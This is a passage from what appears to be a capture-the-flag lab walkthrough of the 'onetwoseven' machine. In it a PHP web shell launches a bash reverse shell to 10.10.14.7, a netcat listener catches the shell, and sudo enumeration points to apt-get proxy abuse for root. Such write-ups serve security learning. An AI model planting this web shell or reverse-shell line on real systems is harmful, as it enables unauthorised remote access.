 
to:

    
    
    <?php system("bash -c 'bash -i >& /dev/tcp/10.10.14.7/443 0>&1'"); ?>
    

I’ll submit, and it overwrites my previous shell. Then I’ll refresh the page,
and `nc` gets a shell:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.133.
    Ncat: Connection from 10.10.10.133:41336.
    bash: cannot set terminal process group (1352): Inappropriate ioctl for device
    bash: no job control in this shell
    www-admin-data@onetwoseven:/var/www/html-admin/addons$
    

## Shell as root

### Enumeration

`sudo -l` gives an interesting result:

    
    
    www-admin-data@onetwoseven:/var/www/html-admin/addons$ sudo -l
    Matching Defaults entries for www-admin-data on onetwoseven:
        env_reset, env_keep+="ftp_proxy http_proxy https_proxy no_proxy",
        mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
    
    User www-admin-data may run the following commands on onetwoseven:
        (ALL : ALL) NOPASSWD: /usr/bin/apt-get update, /usr/bin/apt-get upgrade
    

I can run `apt-get update` and `apt-get upgrade` as root. Not only that, but
`env_keep` says what when I use `sudo` to run these, the `http_proxy` and
`https_proxy` values from my current session will be kept.

Enumerating `apt` a bit further, I’ll check the sources. The `sources.list`
file looks like the normal one for the distribution, providing three repos to
contact:

    
    
    www-admin-data@onetwoseven:/etc/apt$ cat sources.list
    #
    
    # deb cdrom:[devuan_ascii_2.0.0_amd64_netinst]/ ascii main non-free
    
    #deb cdrom:[devuan_ascii_2.0.0_amd64_netinst]/ ascii main non-free
    